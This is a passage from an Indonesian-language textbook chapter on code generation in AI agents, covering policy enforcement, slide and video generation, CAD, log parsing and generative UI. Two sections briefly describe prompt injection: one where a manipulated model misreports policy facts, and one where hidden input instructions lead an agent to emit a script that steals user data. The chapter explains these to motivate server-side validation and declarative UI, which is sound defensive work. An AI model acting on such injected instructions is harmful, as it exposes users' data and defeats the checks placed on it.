    return {"success": False, "reason": "Does not meet cancellation policy"}
```

Nilai dari desain ini harus dipahami pada dua tingkat.

**Tingkat pertama: parameter sebagai daftar periksa penalaran.** Deskripsi alat mencantumkan kebijakan pembatalan lengkap dan mengharuskan *model* untuk "menanyakan detail pesanan dan memeriksa setiap kondisi satu per satu sebelum memanggil"; parameter opsional `expected_*` selanjutnya mendorong *model* untuk secara eksplisit menuliskan penalarannya sendiri. Untuk mengisi parameter ini, *model* pertama-tama harus memanggil alat pencarian untuk mendapatkan detail pesanan dan memverifikasi setiap kondisi satu per satu — mengisi parameter ini karenanya bertindak sebagai **daftar periksa wajib** (*mandatory checklist*). Ketika *model* menemukan bahwa kelas kabin adalah ekonomi dan asuransi belum dibeli, ia mungkin menyadari Rule 5 saat mempersiapkan pemanggilan dan karenanya **menghindari untuk memulainya**, dan malah langsung memberi tahu pengguna "Kelas ekonomi tanpa asuransi tidak dapat dibatalkan. Pertimbangkan untuk membeli asuransi sebelum membatalkan atau mengubah pemesanan Anda." Lapisan ini memandu penalaran dan mengurangi pemanggilan yang tidak valid; namun, ini bukanlah batas keamanan. Nilai-nilai `expected_*` hanyalah klaim yang dilaporkan sendiri, bukan fakta yang dipercaya oleh server.

**Tingkat kedua: validasi ground-truth sisi server sebagai penjaga gerbang.** Perhatikan desain utama dalam kode: kelas kabin, status asuransi, waktu pemesanan, penggunaan segmen, dan status penerbangan semuanya ditanyakan dari *database* oleh server; waktu saat ini berasal dari jam server. **Tidak ada fakta kebijakan yang berasal dari parameter yang dilaporkan sendiri oleh model.** Ini bukanlah redundansi yang tidak perlu: *model* mungkin berhalusinasi atau dimanipulasi oleh Prompt Injection, dan—seperti yang ditunjukkan oleh analisis Lethal Triad sebelumnya—sebuah Agent yang beroperasi dalam satu konteks tunggal tidak dapat memvalidasi perilakunya sendiri secara andal. Jika `cabin_class`, `has_insurance`, dan bahkan `current_time` dirancang sebagai parameter yang diisi oleh *model*, satu nilai palsu—baik tidak sengaja atau dipicu—dapat melewati *gatekeeper*. Garis pertahanan terakhir harus dibangun berdasarkan data yang tidak dapat dipalsukan oleh *model* — ini konsisten dengan pendirian sebelumnya bahwa "operasi kritis memerlukan verifikasi independen": independensi tidak hanya merujuk pada *model* independen tetapi juga pada sumber data independen.

Dengan demikian pengamanan tiga tingkat menjadi lengkap: (1) aturan bahasa alami di dalam System Prompt membantu pemahaman dan penjelasan; (2) deskripsi alat dan desain parameter berfungsi sebagai daftar periksa, memandu *model* untuk secara eksplisit memverifikasi kondisi sebelum memanggil; (3) validasi berbasis kode di sisi server yang menggunakan *database ground truth* bertindak sebagai *gatekeeper* terakhir. Dua tingkat pertama mengurangi terjadinya kesalahan, dan tingkat ketiga memastikan bahwa kesalahan tidak menjadi kerugian yang tidak dapat diubah.

> **Eksperimen 5-3 ★★: Model kecil meningkatkan akurasi eksekusi aturan melalui pengetahuan berbasis kode**
>
> **Tujuan eksperimen**: Memverifikasi bahwa pengkodean aturan bisnis yang kompleks di dalam kode secara signifikan meningkatkan akurasi dan konsistensi di mana *model* kecil (Qwen3-4B) mengeksekusi aturan tersebut.
>
> **Pendekatan teknis**: Merancang eksperimen terkontrol berdasarkan skenario layanan pelanggan maskapai dari τ-bench. **Kelompok kontrol**: Aturan bahasa alami murni, mengandalkan penalaran *model* itu sendiri. **Kelompok eksperimen**: Pengamanan tiga tingkat — System Prompt mempertahankan aturan bahasa alami; deskripsi alat mencantumkan kebijakan lengkap dan menggunakan parameter opsional `expected_*` untuk memandu *model* memeriksa setiap kondisi satu per satu sebelum memanggil (*checklist*); alat secara internal melakukan validasi berbasis kode berdasarkan *database ground truth* yang disimulasikan (semua fakta kebijakan diperoleh dari *database*, waktu diambil dari jam server, dan parameter yang dilaporkan sendiri oleh *model* tidak dipercaya). Metrik evaluasi: tingkat keberhasilan tugas, jumlah pelanggaran kebijakan, jumlah pemanggilan alat yang tidak valid, pengalaman pengguna.
>
> **Hasil yang diharapkan**: Kelompok eksperimen secara signifikan mengungguli kelompok kontrol. Lebih penting lagi, *model* secara otonom mengidentifikasi pelanggaran kebijakan saat mempersiapkan parameter dan menawarkan alternatif tanpa memanggil alat, mendemonstrasikan nilai parameter sebagai *checklist*. Akhirnya, mengukur tingkat ketidaksesuaian antara nilai `expected_*` yang dilaporkan sendiri dengan *database ground truth* untuk menunjukkan mengapa validasi sisi server diperlukan untuk menangkap kesalahan penalaran.
>

### Pembuatan Multimedia Berbasis Kode

Pembuatan banyak dokumen kompleks pada dasarnya adalah pengorganisasian dan penyajian data terstruktur. Baik itu presentasi, laporan teknis, atau aplikasi interaktif, struktur dasarnya ditentukan oleh kode — HTML mendeskripsikan struktur, CSS mengontrol gaya, dan JavaScript mengimplementasikan interaktivitas. Pembuatan dokumen tradisional bergantung pada editor WYSIWYG berbasis GUI, yang kurang cocok untuk Agents karena memerlukan interpretasi visual dan penempatan penunjuk (pointer) yang tepat. Melalui code generation, Agents melewati tantangan pemosisian visual dan mendapatkan kontrol yang presisi atas dokumen — posisi, gaya, dan konten dari setiap elemen didefinisikan dengan jelas dan dapat dimodifikasi serta dioptimalkan secara terprogram.

**PPT Generation Agent.**

Pembuatan PPT terkenal sangat melelahkan. Sebuah presentasi akademik yang khas bisa mencapai puluhan slide, di mana masing-masing membutuhkan tata letak yang cermat, poin-poin utama yang disaring, dan bagan yang dipilih dengan baik. Namun, jika membingkai ulang pembuatan PPT sebagai masalah code generation, sebagian besar kerumitannya akan hilang. Framework presentasi modern seperti Slidev merangkul filosofi desain yang elegan: definisikan konten dalam Markdown dan HTML. Membuat sebuah slide hanya membutuhkan beberapa baris markup yang ringkas, dan framework akan menangani rendering, tata letak, dan animasi. Bagi sebuah Agent yang telah menguasai code generation, ini adalah medan yang ideal.


Namun, menghasilkan kode saja tidak cukup. **Setelah Agent menulis kode, ia tidak tahu bagaimana hasil akhirnya dirender**: konten yang terlalu padat, teks yang meluap (overflow), gambar dengan ukuran yang salah — tidak ada satu pun dari hal-hal ini yang terlihat sampai slide benar-benar dirender. Oleh karena itu, mekanisme **Proposer-Reviewer** (ditunjukkan pada Gambar 5-5) diperlukan untuk menugaskan code generation dan tinjauan kualitas kepada dua Agents independen:

- **Proposer Agent** bertanggung jawab untuk menghasilkan kode Slidev, memahami struktur logis dari konten, dan memecahnya menjadi halaman-halaman yang masuk akal.
- **Reviewer Agent** menjalankan kode untuk merender setiap halaman sebagai gambar, menggunakan Vision LLM (model bahasa besar multimodal yang dapat "melihat" gambar) untuk mengevaluasi slide yang dirender berdasarkan kepadatan konten, keterbacaan, kualitas tata letak, dan daya tarik visual, lalu menghasilkan **saran perbaikan terstruktur** — bukan sekadar umpan balik samar seperti "terlihat kurang bagus," melainkan panduan yang spesifik dan dapat ditindaklanjuti (misalnya, "Halaman 3: terlalu banyak konten, pertimbangkan untuk membaginya"; "Halaman 7: font blok kode terlalu kecil, disarankan untuk ditingkatkan menjadi 14pt"), termasuk field seperti nomor halaman, jenis masalah, dan tingkat keparahan.

Proposer menerima umpan balik, menginterpretasikannya, memodifikasi kode, dan mengirimkan kembali versi baru ke Reviewer. Siklus ini berlanjut sampai presentasi memenuhi standar kualitas atau jumlah iterasi maksimum (misalnya, lima putaran) tercapai. "Kualitas memenuhi standar" dan "putaran maksimum" adalah dua jenis kondisi berhenti eksplisit yang diminta oleh Loop Engineering: yang pertama memungkinkan reviewer memutuskan bahwa tujuan telah tercapai; yang kedua adalah batas anggaran yang mencegah loop berjalan tanpa henti.

Loop Proposer-Reviewer di sini mengikuti pola yang sama dengan mekanisme **pre-approval** pada Bab 4: satu Agent menghasilkan, dan Agent lain mengevaluasi secara independen. Kedua aplikasi tersebut berbeda dalam tujuan dan alur kerja. Bab 4 menggunakan pola tersebut untuk menyetujui atau menolak satu operasi ireversibel tunggal; di sini, pola tersebut mendorong perbaikan konten secara iteratif selama beberapa putaran, dengan Reviewer melihat output render yang tidak tersedia bagi Proposer. Prinsip desain intinya konsisten (batasan tujuan bersama, menggunakan keluarga model yang berbeda untuk mengurangi kemungkinan kesalahan serupa, umpan balik sebagai event khusus yang ditambahkan ke trajectory Proposer). **Keuntungan inti** dari penggunaan pembagian kerja dual-agent daripada loop single-agent terletak pada **manajemen konteks**: Reviewer hanya memproses gambar render dari versi terbaru, tidak terpengaruh oleh versi historis; Proposer hanya mengakumulasi umpan balik teks terstruktur, mengonsumsi lebih sedikit token dan membuat penalaran menjadi lebih mudah. Solusi single-agent akan perlu mengakumulasi gambar render dari beberapa putaran untuk puluhan halaman dalam konteks yang sama, yang dengan cepat melampaui batas konteks. Mekanisme ini akan digunakan kembali dalam eksperimen-eksperimen selanjutnya pada pengeditan video dan visualisasi log; Bab 10 akan mengeksplorasi lebih jauh mode kolaborasi multi-agent lainnya di luar paradigma Proposer-Reviewer.

> **Eksperimen 5-4 ★★: Pembuatan PPT otomatis dari makalah**
>
> **Tujuan eksperimen**: Secara otomatis menghasilkan presentasi berkualitas tinggi dari makalah akademik, memverifikasi efektivitas mekanisme Proposer-Reviewer dalam kontrol kualitas pembuatan konten.
>
> **Pendekatan teknis**: Menggunakan framework Slidev. Proposer Agent membaca PDF makalah, mengekstraksi struktur bab, argumen inti, dan gambar, merencanakan struktur PPT, lalu menghasilkan kode Slidev halaman demi halaman. **Langkah kunci**: Reviewer Agent merender setiap slide dan mengambil tangkapan layar, lalu menggunakan Vision LLM untuk mengevaluasi hasil apakah terdapat teks yang meluap, konten yang padat, dan ukuran gambar yang tidak tepat. Proposer dan Reviewer beriterasi sampai presentasi memenuhi standar kualitas.
>
> **Kriteria penerimaan**: Menghasilkan 10-20 slide yang mencakup kontribusi utama makalah. Menyertakan setidaknya 3 gambar asli yang sesuai dengan teks yang menyertai. Tidak ada teks yang meluap saat dirender, tata letak masuk akal. Membandingkan konsumsi konteks dan kualitas pembuatan antara tinjauan mandiri single-agent dan pembagian kerja Proposer-Reviewer.
>

> **Eksperimen 5-5 ★★: Pembuatan otomatis video penjelasan makalah**
>
> **Tujuan eksperimen**: Memperluas kemampuan pembuatan PPT, menggabungkan saluran visual dan auditori untuk mencapai pembuatan video penjelasan secara otomatis.
>
> **Pendekatan teknis**: Membangun berdasarkan alur kerja presentasi dari Eksperimen 5-4, Agent juga menghasilkan narasi percakapan untuk setiap slide—memandu penonton alih-alih mengulangi teks slide—menggunakan TTS (text-to-speech) untuk menyintesis audio, dan menggabungkan gambar slide serta audio menggunakan FFmpeg untuk memproduksi video akhir.
>
> **Kriteria penerimaan**: Menghasilkan video berdurasi 5 hingga 15 menit di mana waktu tayang setiap slide persis cocok dengan narasinya dan narasi tersebut sesuai dengan elemen visual.
>
>
> 
>
>

**Video Editing Agent.**

Mengedit video melalui antarmuka Computer Use yang bertujuan umum menghadirkan hambatan mendasar: GUI pengeditan video sangat kompleks — padat dengan timeline, layer, dan panel efek. Sebuah Agent harus menemukan dan memanipulasi elemen-elemen ini dengan mouse dan keyboard, yang memerlukan koordinat presisi yang sulit dihasilkan oleh model.

Membingkai ulang pengeditan video sebagai panggilan API dan code generation memangkas kerumitannya secara drastis. Banyak perangkat lunak profesional (seperti Blender — alat pembuatan 3D dan pengomposisian video open-source yang mendukung skrip Python; FFmpeg — alat serbaguna (Swiss Army knife) command-line untuk pemrosesan audio/video) menyediakan antarmuka API terprogram yang mengekspos fungsionalitas inti dengan cara yang terstruktur dan dapat disusun (composable). Misalnya, Blender Python API memungkinkan kontrol presisi atas operasi seperti mengimpor, memotong (trimming), mengatur, menambahkan efek transisi, dan mencampur audio untuk klip video, dengan setiap operasi sesuai dengan panggilan fungsi yang jelas. Bagi sebuah Agent, mengonversi kebutuhan bahasa alami menjadi panggilan API jauh lebih mudah daripada memahami antarmuka GUI dan menyimulasikan klik mouse. Mirip dengan pembuatan PPT, pengeditan video juga mengadopsi mekanisme Proposer-Reviewer — Proposer Agent menghasilkan skrip Blender, Reviewer Agent merender frame kunci (keyframes) dan menggunakan Vision LLM untuk memeriksa efeknya, memberikan umpan balik untuk modifikasi.

> **Eksperimen 5-6 ★★: Pengeditan video cerdas berbasis API**
>
> **Tujuan eksperimen**: Memverifikasi kemampuan Agent untuk melakukan pengeditan video dengan menghasilkan kode Blender Python API, dan mengevaluasi peran mekanisme Proposer-Reviewer berbasis umpan balik visi dalam pemrosesan konten multimedia.
>
> **Tantangan inti**: Memahami persyaratan pengeditan bahasa alami pengguna dan mengonversinya menjadi urutan panggilan API yang presisi, menangani berbagai operasi pengeditan (memotong, menggabungkan, subtitel, pencampuran trek audio, efek visual), dan memastikan skrip Python yang dihasilkan dieksekusi dengan benar. Setelah Proposer Agent menulis kode, ia tidak dapat menilai efek video secara langsung; ia harus bergantung pada Reviewer Agent untuk merender dan menggunakan Vision LLM untuk memeriksa frame kunci.
>
> **Pendekatan teknis**: Pengguna menyediakan material video (misalnya, rekaman mentah berisi adegan seperti selancar, mendaki, ski) dan mendeskripsikan kebutuhannya dalam bahasa alami (misalnya, "Potong bagian selancar"). Proposer Agent menggunakan sub-agent analisis video dengan **strategi pelokalan dua langkah**:
>
> **Langkah 1, pelokalan kasar**: Memanggil sub-agent dengan path video, interval pengambilan sampel frame 10 detik, dan pertanyaan target. Sub-agent menggunakan ffmpeg untuk menangkap frame pada interval tersebut, mengirim tangkapan layar dan pertanyaan ke Vision LLM, dan mengembalikan interval adegan (misalnya, "Selancar berada di antara detik ke-40-110").
>
> **Langkah 2, pelokalan halus**: Memanggil sub-agent lagi pada rentang yang lebih sempit dan mengambil sampel satu frame per detik untuk menemukan batas secara presisi.
>
> Mengenkapsulasi analisis video sebagai sub-agent mencegah sejumlah besar tangkapan layar memonopoli konteks Agent utama. Setelah pelokalan, Proposer menghasilkan skrip API Blender. Reviewer Agent melakukan pratinjau cepat, memeriksa frame kunci, dan memberikan umpan balik untuk modifikasi, beriterasi hingga standar terpenuhi sebelum rendering penuh.
>
> **Kriteria penerimaan**: Agent dapat mengidentifikasi adegan yang berbeda dalam video secara akurat dan menghasilkan skrip pengeditan dengan benar berdasarkan instruksi bahasa alami. Titik awal dan akhir akurat (kesalahan dalam 3 detik). Jika instruksi menyertakan persyaratan efek khusus (gerak lambat, transisi, subtitel), video yang dihasilkan menerapkan efek dengan benar. Reviewer Agent dapat mendeteksi kesalahan yang jelas (konten kunci hilang, menyertakan segmen yang tidak relevan) dan memicu koreksi. File video output akhir memiliki format yang benar dan memenuhi kualitas yang diharapkan.
>

**3D dan Komponen Industri: Batas antara Code Generation dan Model Generatif.**

Sama-sama "membuat sebuah objek", di hadapan Agent terdapat dua jalur: satu adalah menulis kode untuk membangunnya secara presisi (CadQuery, OpenSCAD, Blender API), yang lain adalah langsung memanggil model generasi 3D (model text/image-to-3D seperti Hunyuan 3D, yang sama-sama berasal dari keluarga diffusion dengan text-to-image). Banyak orang bingung: kapan seharusnya menggunakan code generation, dan kapan seharusnya menggunakan model generasi gambar/3D?

**Pertama, lihat apakah produknya memiliki deskripsi presisi yang ringkas.** Komponen industri secara alami memiliki deskripsi presisi yang ringkas. Sebuah flensa (flange)—diameter luar, ketebalan, diameter lingkaran posisi lubang, diameter lubang, jumlah lubang—cukup didefinisikan secara lengkap dengan lima atau enam parameter; kode adalah ekspresi **lossless**-nya. Tanaman hijau dalam pot, batu Taihu, atau wajah manusia tidaklah demikian—mereka memiliki detail yang tak terhitung, dan **kompleksitas intrinsiknya nyaris tak terbatas**.

**Kedua, lihat persyaratan presisi dan verifiability.** Setiap dimensi komponen adalah constraint keras—diameter lubang 5mm, toleransi ±0.05mm; selisih sedikit saja berarti barang cacat. Komponen yang dihasilkan kode dapat diverifikasi secara terprogram: muat mesh-nya, ukur diameter luar dan posisi lubangnya, lalu cocokkan satu per satu dengan spesifikasi. Sedangkan komponen yang dihasilkan model generasi 3D tidak dapat dicocokkan secara langsung dengan spesifikasi.

Kedua jalur juga memiliki perbedaan yang lebih praktis: **bentuk representasi dan editability**. Proses manufaktur membutuhkan solid parametrik B-rep (boundary representation)—file STEP menyimpan feature tree dan parameter dimensi, yang dapat langsung menggerakkan pemesinan CNC. Yang dikeluarkan model generasi 3D adalah mesh segitiga: permukaan melengkung diaproksimasi oleh segi-segi kecil yang tak terhitung jumlahnya, dan terlihat berlekuk-lekuk ketika diperbesar. Begitu klien berkata "ubah lubang pemasangan dari M5 menjadi M6", perbedaannya langsung terlihat: jalur kode cukup mengubah satu angka lalu menjalankan ulang, dengan semua dimensi lainnya tidak berubah sedikit pun; jalur model generatif hanya bisa membuat ulang keseluruhannya—apakah dimensi lain ikut bergeser atau tidak, sepenuhnya bergantung pada keberuntungan.

Jadi, memilih jalur mana itu sendiri adalah sebuah keputusan yang harus dibuat Agent: menimbang kompleksitas intrinsik dan persyaratan presisi produk, lalu membagi tugas antara code generation dan model generasi 3D. Dalam sistem nyata, kedua jalur juga dapat dikombinasikan—geometri dihasilkan secara parametrik dengan kode, sedangkan tekstur permukaan diserahkan ke model generatif, masing-masing mengambil kelebihannya.

> **Eksperimen 5-7 ★★: Dua Rute Pembuatan untuk Komponen yang Sama—Kode dan Model Generatif**
>
> **Tujuan Eksperimen**: Mengambil satu komponen mekanik yang sama dengan spesifikasi dimensi, membandingkan perbedaan antara dua rute—code generation dan model generasi 3D—dalam presisi dimensi, editability, dan kesiapan manufaktur, serta memverifikasi kerangka penilaian "memilih rute berdasarkan kompleksitas intrinsik dan persyaratan presisi".
>
> **Pendekatan Teknis**: Kebutuhan bahasa alami dengan spesifikasi yang eksplisit (misalnya, "flensa, diameter luar 80mm, ketebalan 10mm, 4 lubang pemasangan M5 yang terdistribusi merata, diameter lingkaran posisi lubang 60mm"). **Rute A**: Agent menulis kode CadQuery (atau OpenSCAD) untuk membangun komponen tersebut, lalu mengekspor STEP dan STL. **Rute B**: Serahkan spesifikasi yang sama ke model generasi 3D (misalnya Hunyuan 3D) untuk mendapatkan mesh segitiga. **Verifikasi terprogram**: Ukur deviasi dimensi kunci (diameter luar, ketebalan, posisi lubang, diameter lubang) dari produk kedua rute terhadap spesifikasi, dan periksa kerataan permukaan pemasangannya.
>
> Kemudian kirimkan permintaan perubahan "ubah lubang pemasangan dari M5 menjadi M6", dan catat biaya modifikasi masing-masing rute—rute kode cukup mengubah satu parameter lalu menjalankan ulang; rute model generatif hanya dapat membuat ulang keseluruhannya, dan tidak ada jaminan bahwa dimensi lainnya tetap tidak berubah.
>
> **Grup kontrol**: Buat tanaman hijau dalam pot; keunggulan kedua rute justru terbalik—rute kode tetap kaku dan artifisial bahkan setelah ditambahkan noise prosedural, sedangkan rute model generatif tampak alami dan hidup.

### Kode sebagai Adapter Sistem

Kode pada bagian sebelumnya sebagian besar menghasilkan hal-hal yang "menghadap ke manusia" — laporan, slide, antarmuka. Kode pada bagian ini menunjuk ke arah yang berbeda: **menghubungkan mesin dengan mesin**. Dalam sistem nyata, layanan eksternal yang harus diajak bicara oleh Agent sering kali tidak memiliki SDK yang sudah jadi, dan antarmukanya jarang tertata rapi — dokumentasi mungkin hilang, format respons mungkin tidak standar, dan field dapat bergeser di seluruh versi. Agent tidak perlu menunggu adapter prabangun (prebuilt adapter). Agent dapat membaca dokumentasi API atau menginspeksi beberapa respons nyata, kemudian menghasilkan adapter sesuai permintaan: membangun klien HTTP, merakit header autentikasi, mem-parsing struktur respons nonstandar, dan menerjemahkan model data hulu ke dalam bentuk yang dapat dikonsumsi oleh hilir. Kode di sini adalah "lem universal" untuk menghubungkan sistem mana pun secara arbitrer — di mana pun ada celah, sepotong lem dihasilkan sesuai permintaan untuk mengisinya. Ini adalah jantung dari arah "antarmuka sistem" (system interface) meta-capability. Pem-parsing-an log adaptif yang dikembangkan di bawah ini adalah perwujudan konkret kemampuan ini dalam pengaturan observabilitas: menghadapi format log yang tidak pernah berhenti berevolusi, Agent pun beradaptasi dengan menghasilkan kode pem-parsing-an secara langsung (on the fly).

"Lem universal" ini juga dapat diperluas ke **sistem yang sama sekali tidak memiliki API**: ketika sistem eksternal hanya mengekspos antarmuka grafis, Agent pertama-tama dapat mengoperasikan antarmuka melalui Computer Use (dirinci pada Bab 6), lalu memantapkan urutan operasi yang berhasil menjadi alat RPA di dalam kode — saat berikutnya tugas yang sama muncul, Agent hanya perlu menjalankan kode tersebut, cepat dan stabil, tanpa memerlukan penalaran visual yang mahal. RPA, bisa dibilang, adalah adapter sistem yang dibawa ke tingkat ekstrem: adapter untuk sistem yang tidak memiliki antarmuka terprogram. Mekanisme "perekaman dan pemantapan alur kerja" ini dikembangkan pada Bab 9.

Pemrosesan data adalah salah satu tugas paling umum — dan paling melelahkan — dalam sistem perangkat lunak. Akar penyebabnya adalah format data yang beragam dan tidak pernah diam. Sebuah sistem tunggal dapat mengubah formatnya berkali-kali seiring evolusinya — field baru, struktur persarangan (nesting) yang diubah, tipe baru. Menulis parser secara manual untuk setiap format membawa biaya pemeliharaan yang menyiksa: setiap perubahan berarti memperbarui logika parsing, menguji kompatibilitas, dan merilis versi baru.

Code generation menawarkan pendekatan yang sama sekali berbeda: ketika Agent bertemu format baru, ia menghasilkan kode parsing secara langsung dari sampel data, sehingga sistem melacak evolusi format secara otomatis, tanpa campur tangan manusia.

**Agent Log Parsing and Visualization.**

Observabilitas dari sistem Agent bergantung pada visualisasi alur eksekusi. Tugas Agent yang kompleks mungkin melibatkan ratusan langkah, termasuk beberapa panggilan LLM, lusinan eksekusi tool, dan interaksi di antara beberapa sub-agent. Memvisualisasikan data ini menghadapi beberapa tantangan: tool yang berbeda mengembalikan data dalam struktur yang berbeda, dan format berkembang seiring dengan iterasi sistem; trajectory lengkap dapat berisi ratusan ribu karakter, memerlukan keseimbangan antara gambaran umum dan detail.

Code generation menawarkan solusi elegan: membangun loop umpan balik perbaikan otomatis (auto-repair feedback loop). Ketika frontend menemukan format log yang tidak dapat di-parsing, alih-alih menampilkan pesan error, ia secara otomatis melaporkan informasi kegagalan (sampel log mentah, error mendetail) ke Agent. Agent menganalisis struktur data sampel dan menghasilkan kode frontend yang dapat mem-parsing-nya dengan benar. Kode pertama-tama diuji secara otomatis dalam browser virtual untuk memverifikasi kebenaran parsing, sementara Vision LLM menilai visualisasinya. Jika lulus kedua pemeriksaan, kode di-deploy ke frontend sebagai hot update.

> **Eksperimen 5-8 ★★★: Sistem Log Parsing Adaptif**
>
> **Tujuan Eksperimen**: Membangun sistem visualisasi log Agent yang mampu berevolusi mandiri.
>
> **Pendekatan Teknis**: Sistem awal hanya mendukung format dasar. Frontend mendeteksi kegagalan parsing → Melaporkan ke Agent → Menghasilkan kode parsing → Pengujian browser virtual → Deployment hot update. Seluruh proses dilakukan secara otomatis.
>
> **Kriteria Penerimaan**: Mendeteksi kegagalan secara otomatis dan memicu pembelajaran, menghasilkan kode yang lolos pengujian otomatis, mem-parsing format baru dengan benar setelah hot update.
>

**Analisis Otomatis dan Diagnosis Masalah pada Log Eksekusi Agent.**

Agents di lingkungan produksi (production) menghasilkan log trajectory dalam volume besar (merekam proses lengkap dari setiap tugas). Namun, mengidentifikasi masalah, menemukan akar penyebab (root causes), dan membangun kasus uji (test cases) dari log ini adalah upaya yang berbiaya tinggi. Kegagalan dapat muncul dari interaksi di antara banyak modul, sehingga akar penyebab sulit diisolasi. Mereka juga dapat mahal untuk direproduksi karena lingkungan pengujian jarang menangkap kompleksitas penuh dari lingkungan produksi. Akhirnya, bug sering berulang ketika perbaikan tidak dicakup oleh pengujian regresi (regression tests) yang sistematis.

Code generation menyediakan jalur otomatis untuk diagnosis. Agent dapat membaca log produksi, menggabungkannya dengan dokumen arsitektur dan PRD (Product Requirement Documents) untuk secara otomatis menentukan apakah alur eksekusi memenuhi ekspektasi, dan menunjukkan secara tepat komponen serta modul yang bermasalah. Berdasarkan hasil analisis, Agent menghasilkan laporan masalah terstruktur (prioritas, modul, deskripsi, saran perbaikan) dan kasus uji regresi—kasus uji tersebut merujuk pada ID trajectory masalah dan putaran interaksi utama, lalu framework pengujian akan memutarnya ulang secara otomatis untuk memverifikasi bahwa sistem yang telah diperbaiki menghasilkan perilaku yang benar untuk input yang sama. Terakhir, Agent terhubung ke GitHub melalui MCP untuk membuat Issue dan menugaskannya kepada pengembang terkait, menyelesaikan otomatisasi penuh dari penemuan masalah hingga penugasan tugas.

> **Eksperimen 5-9 ★★★: Sistem Diagnostik Cerdas untuk Log Produksi**
>
> **Tujuan Eksperimen**: Secara otomatis menemukan masalah dari trajectory produksi, menghasilkan kasus uji, dan membuat item pekerjaan.
>

> **Technical Approach**: Agent menganalisis sekumpulan production trajectories bersama dengan dokumen arsitektur sistem dan PRD untuk mengidentifikasi pola masalah dan modul yang terlibat. Ia kemudian menghasilkan laporan masalah terstruktur yang berisi prioritas, modul, deskripsi, dan perbaikan yang direkomendasikan. Ia juga menghasilkan regression tests yang ditautkan ke ID trajektori dan putaran interaksi; kerangka pengujian memutar ulang kasus-kasus ini dan memverifikasi hasilnya. Terakhir, Agent membuat GitHub issues melalui MCP.
>
>
> 
>
>

### Kode sebagai UI Generatif

Sistem Agent tradisional berinteraksi dengan pengguna terutama melalui dialog teks biasa (plain-text). Namun, teks adalah medium linier satu dimensi, dan dalam banyak skenario tidak efisien. Mengumpulkan informasi terstruktur membutuhkan percakapan bolak-balik yang panjang; hubungan data yang kompleks sulit diungkapkan dalam teks biasa; dan ketika pengguna harus memilih di antara berbagai opsi, daftar teks jauh kurang intuitif daripada antarmuka visual.

Code generation menawarkan cara untuk melewati batasan-batasan ini: Agent dapat secara dinamis menghasilkan formulir, bagan interaktif, dan bahkan aplikasi web lengkap, mengubah dialog teks statis menjadi interaksi multimodal yang kaya. Pola ini, di mana Agent secara dinamis menghasilkan antarmuka, disebut **Generative UI**.

**A2UI-like Protocols: Standarisasi Generative UI.**

Mengizinkan Agent menghasilkan HTML dan JavaScript yang secara langsung di-render dan dieksekusi oleh klien menciptakan risiko keamanan mendasar: kode yang dihasilkan bisa saja berbahaya. Misalnya, jika seseorang dengan sengaja menyembunyikan instruksi pada input, Agent bisa dimanipulasi oleh Prompt Injection, dan tanpa sadar menghasilkan skrip yang secara diam-diam mencuri data pengguna. Di sini rantai sebab-akibat menjadi penting: **Prompt Injection**—instruksi berbahaya yang disisipkan ke dalam input Agent—adalah penyebabnya, sementara mengeksekusi skrip berbahaya yang dihasilkan di browser dan mencuri data lebih menyerupai Web XSS (Cross-Site Scripting) tradisional; serangan tersebut secara keseluruhan tidak boleh sekadar dilabeli sebagai XSS. Protokol antarmuka deklaratif seperti A2UI (Agent-to-User Interface) menawarkan pendekatan yang lebih aman. Daripada langsung menghasilkan kode yang dapat dieksekusi, Agent hanya mengeluarkan JSON "UI description manifest," seperti "Tampilkan tabel dengan tiga baris dan dua kolom berjudul 'Data Penjualan'." Klien kemudian me-render antarmuka menggunakan komponen amannya sendiri yang telah ditentukan sebelumnya. Ini seperti menu restoran: pelanggan (Agent) hanya dapat memesan hidangan yang ada di menu (komponen yang sudah ditentukan sebelumnya), tidak boleh masuk ke dapur dan menyiapkan hidangan sembarangan (mengeksekusi kode arbitrer). Salah satu titik kebingungan yang umum adalah AG-UI (Agent-User Interaction, yang diajukan oleh CopilotKit). Meskipun namanya mirip, ini bukan UI description language melainkan **event and transport protocol** yang men-stream status eksekusi Agent—pesan, tool calls, dan state patches—ke frontend; ia juga dapat membawa UI payloads seperti A2UI manifests. Keduanya saling melengkapi dan tidak boleh dikelompokkan sebagai contoh dari kategori antarmuka deklaratif yang sama.

Prinsip desain inti dari protokol-protokol semacam ini adalah **security-first**: klien mempertahankan katalog komponen tepercaya (misalnya, Card, Button, TextField, Table), dan jika katalog serta perender diterapkan dengan benar, Agent hanya boleh meminta komponen yang ada di katalog dan tidak dapat menginjeksi kode arbitrer. Klien melakukan rendering menggunakan native components mereka sendiri, bukan dengan mengeksekusi HTML arbitrer yang dihasilkan oleh Agent. Protokol-protokol ini biasanya juga mendukung **cross-platform rendering** (deskripsi yang sama dirender dalam React, Flutter, dan native apps) dan **incremental generation** (misalnya, dengan men-stream JSONL yang dirender klien saat data itu tiba).

Tentu saja, pendekatan deklaratif cocok untuk skenario interaksi standar (formulir, tabel, kartu), sementara untuk kebutuhan yang sangat disesuaikan (misalnya, visualisasi kustom, antarmuka game), code generation langsung tetap menjadi pilihan yang lebih fleksibel. Di bawah ini adalah aplikasi spesifik dari kedua pola tersebut.

**Menyampaikan Hasil dengan HTML: Menggantikan Laporan Markdown.** Generative UI tidak hanya digunakan selama interaksi tetapi juga mengubah bentuk hasil akhir (**deliverable**) dari Agent. Secara tradisional, Agent menyelesaikan tugas dan menyerahkan laporan Markdown; tetapi membaca Markdown yang tersusun secara linier bukanlah cara yang menyenangkan. Seiring kemampuan Agent yang semakin baik dalam menghasilkan frontend code, praktik kini beralih dengan menyuruh mereka menghasilkan HTML secara langsung. Dibandingkan Markdown, deliverable HTML memiliki beberapa keuntungan yang jelas. Pertama, **interactive demonstrations** memungkinkan pengguna melihat bagaimana sistem bekerja dalam bentuk interaktif, sering kali membuatnya lebih mudah dipahami secara sekilas ketimbang melalui deskripsi tekstual yang panjang. Kedua, **better data visualization** memungkinkan pengguna mengeksplorasi data melalui grafik dan kontrol interaktif untuk menelusuri, memfilter, dan mendalami detail. Ketiga, **continuously improvable deliverables** memungkinkan Agent memperbarui dan memperluas situs web HTML di sepanjang tugas alih-alih menghasilkan artefak statis hanya di bagian akhir.

